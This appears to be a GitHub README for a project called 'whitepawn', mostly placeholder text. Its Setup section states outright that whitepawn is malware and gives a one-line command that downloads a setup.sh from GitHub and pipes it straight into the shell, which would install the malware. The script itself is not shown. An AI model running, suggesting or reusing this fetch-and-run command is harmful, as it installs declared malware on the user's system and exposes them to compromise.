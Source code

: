 <p align="center">
<img src="https://github.com/user-attachments/assets/815a9f0b-40fb-4f61-848c-1690bb5935ec" width="100">
</p>
<h1 align="center">whitepawn</h1>
<p align="center">placeholder text</p>

# Setup
!! * Remember, whitepawn is MALWARE!
<pre>
  <code>
<p align="center">curl -fsL "https://raw.githubusercontent.com/twinstarred/whitepawn/main/setup.sh" | sh</p>
      </code>
</pre>

# About
this is text what would you know
